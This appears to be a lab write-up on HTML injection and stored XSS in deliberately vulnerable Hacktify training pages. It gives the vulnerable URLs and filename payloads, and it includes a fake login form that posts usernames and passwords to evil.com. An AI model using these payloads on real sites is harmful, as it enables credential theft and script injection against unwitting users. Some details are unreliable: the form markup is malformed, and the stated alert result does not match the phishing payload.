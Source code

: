 ### Vulnerability Description
- **File Name Injection:** The application does not properly sanitize user-provided file names before storage or display.
- **Impact:** Malicious file names containing HTML/JavaScript execute when rendered, leading to stored HTML injection or stored XSS.

### How It Was Discovered
- Uploaded a file with a modified filename:
  - HTML payload: `<h1 style="color:red;">Hacked!</h1>.png`
  - JavaScript payload: `<script>alert('XSS!')</script>.png`
- The file name was reflected on the page without sanitization, demonstrating the vulnerability.

---

## Sub-lab-4: File Content and HTML Injection a perfect pair!

**Risk Rating:** High

### Vulnerable URL
```
https://labs.hacktify.in/HTML/html_lab/lab_4/html_injection_4.php
```

### Vulnerability Description
- **File Upload Exploit:** The application allows file uploads without proper sanitization of file names.
- **Impact:** Attackers can craft file names that include malicious HTML or JavaScript, resulting in code execution when displayed.

### How It Was Discovered
1. **Create a malicious file:**
   - Filename example: `malicious.html`
   - Payload example: Contains malicious HTML code.
     ```
     <form action="http://evil.com/steal.php" method"POST">
       <input type="text" name="username" placeholder="Enter Username">
       <input type="password" name=password"" placeholder="Enter Password">
       <input type="submit" value="Logine">
     </form>
     ```
2. Use the file **upload** feature, and navigate to the page where the uploaded file is listed.
3. **Observation:** The injected code executed, triggering an alert box with the message `XSS`.
---

## Sub-lab-2.5: Injecting HTML using URL

**Risk Rating:** High

### Vulnerable URL
```
http://labs.hacktify.in/HTML/html_lab/lab_5/html_injection_5.php
```
